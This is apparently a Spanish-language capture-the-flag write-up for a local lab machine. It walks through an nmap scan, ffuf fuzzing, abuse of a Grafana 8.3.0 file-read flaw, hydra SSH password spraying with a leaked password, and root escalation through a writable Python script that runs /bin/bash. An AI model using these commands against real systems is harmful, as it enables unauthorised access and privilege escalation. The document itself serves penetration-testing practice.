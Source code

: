 Fecha: 03/09/2024

Empiezo escaneando la máquina: 
```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](imágenes/Pasted%20image%2020240903173808.png)

Compruebo el puerto 3000 y es grafana v8.3.0. 
Lo primero que hago es fuzzing para buscar algo interesante en el servidor http: 

```bash
ffuf -c -w /usr/share/wordlists/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ  -e .php,.html,.txt,.js,.py -o fuzzing  
```

![](imágenes/Pasted%20image%2020240903174102.png)

Leyendo maintenance.html, encuentro lo siguiente:
![](imágenes/Pasted%20image%2020240903174130.png)

Paso a investigar sobre esa versión de grafana:
![](imágenes/Pasted%20image%2020240903174249.png)

Usaré el código que proporcionan para intentar abusar de la vulnerabilidad. Me permite leer un archivo, así que elijo el encontrado anteriormente:
![](imágenes/Pasted%20image%2020240903174534.png)

Ahora usaré hydra para probar esta contraseña con múltiples usuarios:
```shell
hydra -p t9sH76gpQ82UFeZ3GXZS  -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt ssh://172.17.0.2 -t 16 
```

![](imágenes/Pasted%20image%2020240903175020.png)

Accedo por ssh y compruebo permisos:
![](imágenes/Pasted%20image%2020240903175158.png)

Como puedo editar el script ya que freddy es el dueño, ejecutaré bash desde el mismo para convertirme en superusuario: 

```python
import os

os.system("/bin/bash")
```

![](imágenes/Pasted%20image%2020240903175702.png)

